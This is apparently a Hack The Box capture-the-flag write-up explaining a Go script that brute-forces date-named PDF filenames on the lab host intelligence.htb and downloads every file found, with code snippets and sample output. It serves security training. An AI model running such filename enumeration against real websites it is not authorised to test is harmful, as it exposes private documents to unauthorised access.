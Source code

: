 # Hack The Box. Machines. Intelligence

Machine write-up: https://7rocky.github.io/en/htb/intelligence

### `reqPdf.go`

There is a website at `intelligence.htb` that provides two PDF files named: `2020-01-01-upload.pdf` and `2020-12-15-upload.pdf`. These files contain useful information as metadata, however not enough to continue with the exploitation.

Looking at the filenames, we can try to retrieve more PDF files that have the same format (namely, `YYY-MM-DD-upload.pdf`).

For that purpose, we can write a simple Go script. First, let's write the function called `requestPdf` to request a file given a date:

```go
func requestPdf(year, month, day int) {
	filename := fmt.Sprintf("%d-%02d-%02d-upload.pdf", year, month, day)
	res, err := http.Get("http://intelligence.htb/documents/" + filename)

	if err != nil {
		panic(err)
	}

	defer res.Body.Close()

	if res.StatusCode == 200 {
		body, err := ioutil.ReadAll(res.Body)

		if err != nil {
			panic(err)
		}

		writeToPdf(filename, body)
	}
}
```

The process is simple, we generate the filename using `fmt.Sprintf` to format the year, month and day correctly. After that, we set the URL and make the GET request. If the status code is 200 (for instance 200 OK), then the file exists and we need to write the response body into a file.

To write these contents to a file, we use the function `writeToPdf`:

```go
func writeToPdf(filename string, content []byte) {
	file, err := os.Create(filename)

	if err != nil {
		panic(err)
	}

	_, err = file.Write(content)

	if err != nil {
		panic(err)
	}
}
```

This function just creates the file and writes the contents to it.

Then, we add the `main` function:

```go
func main() {
	fmt.Println("Fuzzing PDF files of the form: YYYY-MM-DD-upload.pdf")

	start := time.Now()
	year := 2020

	for month := 1; month <= 12; month++ {
		for day := 1; day <= 31; day++ {
			requestPdf(year, month, day)
		}
	}

	fmt.Printf("Found all files in %s\n", time.Since(start))
}
```

To merge all these functions and add concurrency to the program, we can make use of `go` functions and the `sync` package. The number of threads has been set to `50`. As a result, all requests ($12 \cdot 31 = 372$) are done at the same time and the downloading process will be shorter:

```console
$ go run reqPdf.go
Fuzzing PDF files of the form: YYYY-MM-DD-upload.pdf
Found 84 files in 784.6615ms
```

**Note:** The previous code snippets are shown only as an explanation, the complete source code is a bit different due to the concurrency functionality, some global variables and the imported packages.
